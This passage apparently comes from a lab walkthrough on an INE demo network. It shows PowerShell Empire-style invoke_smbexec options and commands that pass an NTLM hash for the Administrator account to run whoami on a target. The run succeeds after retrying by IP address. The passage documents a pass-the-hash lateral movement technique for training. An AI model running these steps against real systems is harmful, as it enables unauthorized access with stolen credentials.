 |                  |                    |          | "ConvertTo-Csv", "ConvertTo-Html",  |
|                  |                    |          | "ConvertTo-Xml").                   |
| Proxy            | default            | False    | Proxy to use for request (default,  |
|                  |                    |          | none, or other).                    |
| ProxyCreds       | default            | False    | Proxy credentials                   |
|                  |                    |          | ([domain\]username:password) to use |
|                  |                    |          | for request (default, none, or      |
|                  |                    |          | other).                             |
| Service          |                    | False    | Name of service to create and       |
|                  |                    |          | delete. Defaults to 20 char random. |
| UserAgent        | default            | False    | User-agent string to use for the    |
|                  |                    |          | staging request (default, none, or  |
|                  |                    |          | other).                             |
| Username         |                    | True     | Username.                           |

`set ComputerName demo.ine.local`, `Set Username Administrator`, `set Hash 5c4d59391f656d5958dab124ffeabc20`, `set Command whoami`, `execute`:
```
[*] Tasked DemoINE to run Task 3
```

_The command did not execute successfully, possibly due to network or configuration issues._

`history`:
```
[*] Task 3 results received
demo.ine.local did not respond ←


Invoke-SMBExec completed!
```

_Trying to execute the command using the IP of the target `10.4.16.233`._

`usemodule powershell/lateral_movement/invoke_smbexec`, `set ComputerName 10.4.16.233`, `execute`:
```
[*] Tasked DemoINE to run Task 4
```

_The command executed successfully on the target._

`history`:
```
[*] Task 4 results received
Command executed with service DRYEXDRMFUKBYSUVTXTQ on 10.4.16.233 ←



Invoke-SMBExec completed!
```
